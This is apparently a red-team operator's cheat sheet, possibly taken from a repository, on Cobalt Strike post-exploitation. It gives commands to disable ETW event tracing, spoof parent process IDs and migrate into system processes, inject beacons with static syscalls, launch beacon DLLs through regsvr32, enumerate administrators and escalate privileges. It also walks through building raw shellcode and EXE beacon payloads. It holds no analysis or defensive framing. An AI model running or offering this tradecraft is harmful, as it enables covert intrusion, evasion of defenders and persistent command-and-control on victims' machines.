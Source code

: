 
# Payloads
##########################

=====  Beacon Initial Actions  =====
	## Disable event thread tracing for windows
etw stop
	## Migrate to a process that commonly interacts with the network such as explorer.exe or svchost.exe
ps
ppid <pid>
	## To revert back to original PID, aka: set parent process as current process
ppid

	## Spawn a new beacon within a running process
		## Spawn beacons for each team member
		## Spawn beacon for lifeline
	## Spawn using static syscalls
static_syscalls_inject <pid> <cs listener>
	## Spawn new beacons with DLLs
shell c:\windows\system32\regsvr32.exe c:\windows\tasks\cisa12345.dll

	## Add labels to beacon
note <operator name>
	## Enumerate
netLocalGroupListMembers administrators
	## Elevate privileges: https://github.com/rsmudge/ElevateKit/tree/master/modules


=====  Payload Creation  =====
# Cobalt Strike:
	## Attacks > Packages > Windows Executable (S)
		## Listener: https-beacon, Output: Raw, x64: unchecked
			## Save as x86_raw.bin
	## Attacks > Packages > Windows Executable (S)
		## Listener: https-beacon, Output: Raw, x64: checked
			## Save as x64_raw.bin
	## Attacks > Packages > Windows Executable (S)
		## Listener: https-beacon, Output: Windows EXE, x64: checked